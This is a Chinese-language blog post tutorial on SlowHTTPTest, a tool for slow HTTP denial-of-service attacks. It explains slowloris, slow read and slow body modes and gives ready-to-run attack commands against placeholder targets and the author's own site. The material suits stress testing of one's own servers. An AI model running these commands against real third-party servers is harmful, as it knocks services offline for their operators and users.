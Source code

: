 ```yaml
---
layout: post
title: SlowHTTPTest-慢速DoS攻击
---
```


Slowhttptest是一个依赖于实际HTTP协议的Slow HTTP DoS攻击工具，它的设计原理是要求服务器所有请求被完全接收后再进行处理。

SlowHTTPTest是一款对服务器进行慢攻击的测试软件，所谓的慢攻击就是相对于cc或者DDoS的快而言的，并不是只有量大速度快才能把服务器搞挂，使用慢攻击有时候也能到达同一效果。slowhttptest包含了之前几种慢攻击的攻击方式，包括slowloris, Slow HTTP POST, Slow Read attack等。那么这些慢攻击工具的原理就是想办法让服务器等待，当服务器在保持连接等待时，自然就消耗了资源。

Slowhttptest的源码托管在Github：<https://github.com/shekyan/slowhttptest>

## 在Kali Linux上安装SlowHTTPTest

{% highlight shell %}
# apt-get install slowhttptest 
{% endhighlight %}

如果你使用其他linux发行版，可以从源码编译安装：

{% highlight shell %}
$ ./configure
$ make
$ sudo make install
{% endhighlight %}

## 使用示例

man手册：

{% highlight shell %}
# man slowhttptest
{% endhighlight %}

帮助信息中提供了很多使用示例。

### slowloris模式：

{% highlight shell %}
# slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u https://yourtarget.com/index.html -x 24 -p 3
{% endhighlight %}

![SlowHTTPTest: 慢速DoS攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-28 at 18.18.13.png)

生成图表(CSV和html格式)：

{% highlight shell %}
# slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://yourtarget.com/index.html -x 24 -p 3
{% endhighlight %}

### Slow Read模式：

{% highlight shell %}
# slowhttptest -c 1000 -X -r 1000 -w 10 -y 20 -n 5 -z 32 -u http://yourtarget.com -p 5 -l 350 -e x.x.x.x:8080
{% endhighlight %}

x.x.x.x:8080是HTTP代理

*****

### 实际测试

Slow Body攻击：

{% highlight shell %}
# slowhttptest -c 1000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://www.mywebsite.com -x 10 -p 3
{% endhighlight %}

攻击开始，服务器端在几秒内的变化：

![SlowHTTPTest: 慢速DoS攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-28 at 18.29.22.png)